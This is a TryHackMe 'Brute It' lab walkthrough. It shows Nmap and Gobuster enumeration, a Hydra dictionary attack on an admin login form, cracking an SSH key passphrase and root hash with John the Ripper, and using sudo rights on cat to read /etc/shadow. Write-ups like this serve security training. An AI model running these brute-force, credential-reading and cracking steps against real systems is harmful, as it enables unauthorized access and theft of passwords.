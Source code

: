 ## Brute It - TryHackMe Walkthrough

---

**Author:** Sanjay D
**THM-Profile:** cyberdragon1 \[0x9]\[MAGE]

---
## 🧭 Enumeration

We begin with a comprehensive **Nmap scan** to identify open ports and running services:

```bash
sudo nmap -sV -A -sS -T4 10.10.255.166
```
![alt text](image-38.png)

The scan revealed that an **HTTP service** is active on **port 80**. To dig deeper, we performed **directory enumeration** using **Gobuster**:

```bash
gobuster dir -u http://10.10.255.166 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![alt text](image-39.png)

This revealed a **hidden directory** (`/admin`). On visiting this path, we were presented with a **login page**. By inspecting the HTML source, we discovered a comment suggesting the **username is `admin`**.

![alt text](image-40.png)

![alt text](image-41.png)

---

## 🔓 Brute-Force Login

We used **Hydra** to perform a dictionary attack on the login form using the RockYou wordlist:

```bash
hydra -l admin -P rockyou.txt 10.10.255.166 http-post-form "/admin:username=^USER^&password=^PASS^:Username or password invalid"
```
![alt text](image-42.png)

Hydra successfully returned a valid password for the `admin` user. Logging in with these credentials gave us access to the **web flag** and an **RSA private key**.

![alt text](image-43.png)

---

## 🔑 Cracking the RSA Key

Before using the key for SSH access, we needed to **crack the RSA passphrase**.

![alt text](image-44.png)

First, we converted the private key to a John-compatible hash:

```bash
ssh2john rsa > hash.txt
cat hash.txt
```
![alt text](image-45.png)

![alt text](image-46.png)

We then cracked the hash using **John the Ripper**:

```bash
john --wordlist=rockyou.txt hash.txt
```
![alt text](image-47.png)

Once the passphrase was found, we ensured proper file permissions for the key:

![alt text](image-48.png)

```bash
chmod 700 rsa
```

And then used it to SSH into the remote machine:

```bash
ssh -i rsa admin@10.10.255.166
```
![alt text](image-49.png)

We successfully connected as user `john`. Listing the contents of the home directory revealed the **user flag**.

![alt text](image-50.png)

---

## 🔼 Privilege Escalation

Checking `sudo` privileges:

```bash
sudo -l
```
![alt text](image-51.png)

We found that user `john` can run `/bin/cat` as sudo **without a password**. This is suspicious, as `cat` is a simple utility, but can be abused.

We referred to [GTFOBins-cat](https://gtfobins.github.io/gtfobins/cat/) for known exploitation techniques.

![alt text](image-52.png)

To read sensitive files, such as `/etc/shadow`, we used:

```bash
LFILE=/etc/shadow
sudo /bin/cat "$LFILE"
```
![alt text](image-53.png)

This revealed the **root user's password hash**. We copied the hash into a file named `hashhh` and cracked it using John:

```bash
john --wordlist=rockyou.txt hashhh
```
![alt text](image-54.png)

John successfully cracked the root password.

---

## 🏁 Retrieving the Root Flag

With the root password in hand, we logged in as root or used `sudo` with the `cat` command again to read the flag:

```bash
LFILE=/root/root.txt
sudo /bin/cat "$LFILE"
```
![alt text](image-55.png)

This revealed the **root flag**, completing our exploitation process.

---

## ✅ Summary

* Enumerated open services using Nmap and found HTTP on port 80.
* Discovered `/admin` login portal and brute-forced access using Hydra.
* Retrieved web flag and an RSA key; cracked passphrase with John.
* Logged in via SSH as user `john` and found the user flag.
* Escalated privileges by exploiting sudo rights on `cat` to read `/etc/shadow`.
* Cracked root password and accessed the root flag using GTFOBins method.
* Pwned Brute It !!!!

![alt text](image-56.png)

---
